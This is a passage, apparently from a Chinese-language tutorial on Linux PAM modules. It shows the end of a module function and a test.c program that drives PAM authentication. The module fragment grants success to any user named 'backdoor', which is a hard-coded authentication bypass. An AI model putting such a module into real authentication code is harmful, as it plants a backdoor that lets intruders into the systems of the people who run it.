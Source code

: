 	if (retval != PAM_SUCCESS) {
		return retval;
	}

	if (strcmp(pUsername, "backdoor") != 0) {
		return PAM_AUTH_ERR;
	}

	return PAM_SUCCESS;
}
```

test.c文件源代码

```
#include <security/pam_appl.h>
#include <security/pam_misc.h>
#include <stdio.h>

const struct pam_conv conv = {
	misc_conv,
	NULL
};

int main(int argc, char *argv[]) {
	pam_handle_t* pamh = NULL;
	int retval;
	const char* user = "nobody";

	if(argc != 2) {
		printf("Usage: app [username]\n");
		exit(1);
	}

	user = argv[1];

	retval = pam_start("check_user", user, &conv, &pamh);

	// Are the credentials correct?
	if (retval == PAM_SUCCESS) {
		printf("Credentials accepted.\n");
		retval = pam_authenticate(pamh, 0);
	}

	// Can the accound be used at this time?
	if (retval == PAM_SUCCESS) {
		printf("Account is valid.\n");
		retval = pam_acct_mgmt(pamh, 0);
	}

	// Did everything work?
	if (retval == PAM_SUCCESS) {
		printf("Authenticated\n");
	} else {
		printf("Not Authenticated\n");
	}
